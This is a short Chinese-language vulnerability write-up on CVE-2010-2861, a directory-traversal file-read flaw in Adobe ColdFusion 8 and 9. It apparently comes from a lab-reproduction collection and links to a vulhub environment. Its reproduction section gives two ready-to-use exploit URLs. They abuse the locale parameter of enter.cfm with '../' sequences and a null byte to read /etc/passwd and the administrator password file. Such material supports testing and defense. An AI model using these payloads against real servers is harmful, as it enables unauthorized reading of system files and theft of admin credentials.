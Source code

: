 # CVE-2010-2861 Adobe ColdFusion 文件读取漏洞

## 漏洞简介

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 漏洞影响

Adobe ColdFusion 8

Adobe ColdFusion 9

## 复现过程

直接访问

`http://url:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd：`

![](images/15889265283135.png)


读取后台管理员密码

`http://url:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en：`

![](images/15889265635934.png)


## 参考链接

https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/